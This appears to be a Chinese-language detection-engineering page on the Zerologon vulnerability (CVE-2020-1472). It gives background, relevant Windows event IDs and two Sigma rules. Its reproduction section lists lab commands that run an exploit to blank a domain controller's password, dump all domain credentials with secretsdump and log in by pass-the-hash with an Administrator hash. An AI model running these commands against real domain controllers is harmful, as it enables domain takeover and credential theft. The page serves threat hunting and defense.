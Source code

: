 # T1134-001-Win-CVE-2020-1472

## 来自ATT&CK的描述

攻击者可能会复制，然后冒充另一个用户的令牌以提升特权并绕过访问控制。攻击者可以创建一个新的访问令牌，该令牌使用来复制现有令牌DuplicateToken(Ex)。然后可以将该令牌用于ImpersonateLoggedOnUser允许调用线程模拟已登录用户的安全上下文，或者SetThreadToken用于将模拟令牌分配给线程。

当攻击者具有要将新令牌分配给的特定现有过程时，他们可以执行此操作。例如，当目标用户在系统上具有非网络登录会话时，这可能很有用。

## 测试案例

2020年9月11日，安全研究员Secura发布了公告，阐明了Microsoft在2020年8月修补的漏洞细节（CVE-2020-1472）。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。本文将从“Zerologon”漏洞原理、漏洞复现、威胁狩猎三个维度对该漏洞进行分析。

具体可参考安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测日志

Windows 系统日志、全流量

此外，在8月份的补丁中，Microsoft添加了五个新的event ID，以通知易受攻击的Netlogon连接：

1、允许存在漏洞的Netlogon安全通道连接时，将生成event ID 5829

2、拒绝易受攻击的Netlogon连接时，将触发event ID 5827和5828

3、允许存在漏洞的Netlogon连接时触发的event ID 5830和5831

如果域控已经安装了补丁，还可以通过以上5个event ID进行威胁狩猎。

## 测试复现

以下模拟测试过程来自安全客相关文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

实验环境：

```yml
域控：Winserver2012 R2（x64）
IP：10.10.10.10
hostname：DC
域：de1ay.com
```

![windows域控](https://p4.ssl.qhimg.com/t01d53a30398ec357a2.jpg)

```yml
攻击机：ubuntu1604（x64）
IP：10.10.10.111
```

![hacker-pc](https://p4.ssl.qhimg.com/t019275a00ca38b1d6b.jpg)

运行exp脚本，成功将AD域控的机器账户DC的密码置换成空：

```yml
python3 cve-2020-1472-exploit.py  DC 10.10.10.10
```

![hacking-1](https://p0.ssl.qhimg.com/t01f402a9c7c4c3b532.jpg)

此时域控服务器账户密码为空，同等于已知密码，可以导出域内所有用户凭据：

```yml
python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
```

![hacking-2](https://p0.ssl.qhimg.com/t01497ee0714e6f98cc.jpg)

导出hash后，发现DC的hash为31d6cfe0d16ae931b73c59d7e0c089c0，也就是空密码，同时获得了域管administrator的hash，利用administrator的hash拿下域控：

```yml
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
```

![hacking-3](https://p5.ssl.qhimg.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无，具体同样可参考安全客文章，[传送门](!https://www.anquanke.com/post/id/219090#h2-2)

## 检测规则/思路

### sigma规则

#### 检测规则1

```yml
title: Possible CVE-2020-1472 (zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
- https://github.com/SecuraBV/CVE-2020-1472
tags:
- attack.lateral_movement
- attack.T1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
- 'unknown'
level: high
```

### 检测规则2

```yml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
    - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
    - attack.privilege_escalation
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID:
            - 5829 #具备一定的局限性，需要域控主机打完补丁后，方可使用
    condition: selection
fields:
    - SAMAccountName
falsepositives:
    - Unknown
level: high
```

### 建议

相关规则未在真实环境中进行测试，效果未知。

## 参考推荐

MITRE-ATT&CK-T1134-001

<https://attack.mitre.org/techniques/T1134/001/>

ZeroLogon（CVE-2020-1472）分析与狩猎

<https://www.anquanke.com/post/id/219090#h2-2>

win_vul_cve_2020_1472-sigma

<https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>

zeek官方

<https://zeek.org/>
